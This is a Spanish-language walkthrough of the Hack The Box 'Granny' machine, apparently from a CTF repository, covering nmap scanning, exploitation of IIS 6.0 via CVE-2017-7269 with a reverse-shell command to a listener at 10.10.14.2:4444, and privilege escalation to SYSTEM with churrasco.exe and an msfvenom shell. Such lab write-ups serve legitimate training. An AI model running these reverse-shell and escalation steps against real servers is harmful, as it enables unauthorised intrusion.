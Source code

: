 ![cover](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/granny.jpg)

## Windows - Easy
IP = 10.10.10.15

### USER ###

*** 
Ejecutamos nmap 
    
    nmap -p- --open --min-rate 5000 -n -Pn -oG allPorts 10.10.10.15
    
![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/allports.jpg)

    nmap -sC -sV -p80 -oN targeted 10.10.10.15

![Image text](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/targeted.jpg)

Detectamos el pueto 80 con IIS 6.0 

Buscamos vulnerabilidades de IIS 6.0 y encontramos el CVE-2017-7269

Nos descargamos el exploit de:

https://github.com/g0rx/iis6-exploit-2017-CVE-2017-7269

Ejecutamos el exploit poniendo el puerto a la escucha.

    python2.7 iis6\ reverse\ shell 10.10.10.15 80 10.10.14.2 4444

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/acceso.jpg)   

Conseguimos acceso a la maquina, comprobamos el usuario con el que hemos accedido nt autority\network service

Esta cuenta tiene permisos de acceso a los recursos de red pero no podemos hacer nada con ella.

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/networkservice.jpg)

Buscamos informacion para la escalada de privilegios y encontramos el articulo

https://binaryregion.wordpress.com/2021/08/04/privilege-escalation-windows-churrasco-exe/

ejecutamos 

    whoami /priv
    
![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/impersonate.jpg)

comprobamos que el SeImpresontaPrivilege Enabled
Descargamos churrasco.exe y lo compartimos con impacket

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/churrasco.jpg)

Ejecutamos whoami con churrasco.exe y vemos que somos system

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/system.jpg)

Creamos un reverse shell con msfvenom

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/shell.jpg)

lo copiamos en granny

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/copy2.jpg)

ponemos en escucha el puerto de nuestro reverse shell y ejecutamos lo ejecutamos con churrasco

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/exploit.jpg)

Conseguimos acceso con system

leemos la flag de user

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/user.jpg)

### Root ###
***

Ejeutamos cd en la caperta de administrador y vemos que nos permite el acceso, vamos al escritorio y encontramos la flag

![](https://github.com/b14nc0/CTF/blob/main/HTB/images/granny/root.jpg)
